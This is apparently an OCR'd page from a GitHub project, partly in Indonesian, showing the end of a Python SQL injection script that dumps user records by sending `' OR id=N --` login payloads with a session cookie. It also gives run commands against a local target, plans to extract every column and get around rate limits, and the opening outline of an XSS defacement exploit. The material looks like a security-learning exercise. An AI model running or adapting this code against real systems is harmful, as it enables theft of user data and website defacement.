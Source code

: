 ```python
            print("cannot get data of last user")
            return
        users.append(last_user)

        for user_id in range(1,int(last_user['id'])):
            payload_get_user = {"login": f"\' OR id={user_id} --"}
            response = requests.post(base_url, headers=headers, cookies=parsed_cookies, data=payload_get_user)
            if response.status_code != 200:
                print(f"invalid request: user ID {user_id}")
            extracted_user = parse_html(response.text)
            users.append(extracted_user)

    except requests.RequestException:
        print(f"Request failed: {base_url}")

    return users

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="SQL injection Python program")
    parser.add_argument("--url", help="Endpoint URL of target")
    parser.add_argument("--cookie", help="Cookie string")
    args = parser.parse_args()

    leaked_users = exploit_get_user_data(args.url, args.cookie)
    print(leaked_users)
```

#### Validate
- Jalankan untuk berbagai skenario
  - parameter lengkap: `python3 sql_injection.py --url http://localhost:9090/app/usersearch --cookie connect.sid=s%3A3XESvCZcNUiMK6cFsH5zGdKaMiW48aRs.HiSUlqUWMtQFDlpMpUt3lvm426bRtu7adP9%2BoHKSCvM` --> ekspektasi: berhasil
  - tanpa cookie: `python3 sql_injection.py --url http://localhost:9090/app/usersearch` --> ekspektasi: program jalan tapi tidak mendapat info user
  - tanpa URL: `python3 brute_login.py --file wordlist.txt --delay 2.5` --> ekspektasi: gagal

#### Enhance
- simpan output data user dalam log
- eksplorasi SQL query yang memungkinkan untuk ambil semua kolom data user
- Handling untuk mengatasi potensi banned atau rate limit dari server

### XSS Exploit

#### Define
- **Input**: URL path endpoint yang vulnerable, payload 
- **Output**: perubahan tampilan website
- **Process**: Masukkan payload perubahan website pada URL yang vulnerable

#### Refine
- Tentukan URL yang vulnerable
- Tentukan HTTP request untuk deface
- Kirim HTTP request ke server
- Cek response
